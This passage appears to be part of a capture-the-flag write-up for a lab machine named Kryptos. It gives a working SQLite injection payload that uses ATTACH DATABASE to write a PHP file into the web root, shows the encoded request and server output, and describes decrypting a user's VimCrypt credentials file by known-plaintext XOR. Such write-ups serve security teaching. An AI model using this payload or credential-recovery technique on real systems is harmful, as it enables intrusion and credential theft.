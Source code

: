 We have a sqlite database that is clearly vulnerable to sql injection in the query `"SELECT * FROM books WHERE id=".$bookid;`. After researching a bit weather we can do something with sql injection on sqlite databases, this blog [post](https://atta.cked.me/home/sqlite3injectioncheatsheet) describes a very interesting technique to get code execution. Sqlite lets us attach a new database that will be created as a file on the file system with content we control! After playing for a while the following query does the trick:

```
 or 1=1;attach database '/var/www/html/dev/d9e28afcf0b274a5e0542abb67db0784/xct.php' as xct;create table xct.pwn (dataz text);insert into xct.pwn (dataz) values ("<?php phpinfo(); ?>");--
```

For this to work with our script we have to url encode the query (I did in burp):

```
python3 kryptos_request.py get 10.10.16.66 8000 rscbam8ane6bs8lvgro0jkb3jb "http://127.0.0.1/dev/sqlite_test_page.php?no_results=FALSE&bookid=1%20%6f%72%20%31%3d%31%3b%61%74%74%61%63%68%20%64%61%74%61%62%61%73%65%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%64%65%76%2f%64%39%65%32%38%61%66%63%66%30%62%32%37%34%61%35%65%30%35%34%32%61%62%62%36%37%64%62%30%37%38%34%2f%78%63%74%2e%70%68%70%27%20%61%73%20%78%63%74%3b%63%72%65%61%74%65%20%74%61%62%6c%65%20%78%63%74%2e%70%77%6e%20%28%64%61%74%61%7a%20%74%65%78%74%29%3b%69%6e%73%65%72%74%20%69%6e%74%6f%20%78%63%74%2e%70%77%6e%20%28%64%61%74%61%7a%29%20%76%61%6c%75%65%73%20%28%22%3c%3f%70%68%70%20%70%68%70%69%6e%66%6f%28%29%3b%20%3f%3e%22%29%3b%2d%2d"
[+] Got encrypted result
[*] Size: 331
10.10.10.129 - - [28/Apr/2019 11:24:37] "GET /tmp HTTP/1.1" 200 -
[+] Decrypted:
<html>
<head></head>
<body>
Opened database successfully
```

We can now check if the file has been written with:

```
python3 kryptos_request.py get 10.10.16.66 8000 rscbam8ane6bs8lvgro0jkb3jb http://127.0.0.1/dev/d9e28afcf0b274a5e0542abb67db0784/xct.php
```

We see that this is the case, our file was executed and we get the contents of phpinfo(). Note that you can only execute this once with a given name (like "xct" in the example) because it is a create table command which will fail on consecutive executions. I leave it to you to adjust it for updates.

Now we have to turn this into a shell. We look around on the box using the builtin php functions "scandir" and "file\_get\_contents". Eventually we find in "/home/rijndael" the file "creds.txt":

```
00000000: 5669 6d43 7279 7074 7e30 3221 0b18 e435  VimCrypt~02!...5
00000010: cb56 129a 3544 8040 703b 962d 930d a810  .V..5D.@p;.-....
00000020: 766e 645d c14b e21c 7959 437d d935 fb36  vnd].K..yYC}.5.6
00000030: 674d 5241 8b6e                           gMRA.n
```

After a bit of research for vimcrypt we find it supports zip, blowfish and blowfish2 and that there are some tools out there which can decrypt it (by using wordlists or bruteforce). However we don’t have any luck with this. There is [blog post](https://dgl.cx/2014/10/vim-blowfish) describing a weakness in the crypto used on old versions which seems very promising. The vulnerability lies in the fact that the encryption is done with a repeating keystream. Since we know a part of the plain text from the creds.old file (which is in the home folder of rijndael aswell and contains "rijndael / Password1"), we can obtain the key used for encryption by xoring the cipher text with the known plaintext. Using the key we can then decrypt the whole file and obtain cleartext credentials. My teammate nastirth wrote a nice [script](https://gist.github.com/xct/a5b56b03e8b7a97eb8ec2a5bc67ffa38) to automate the process
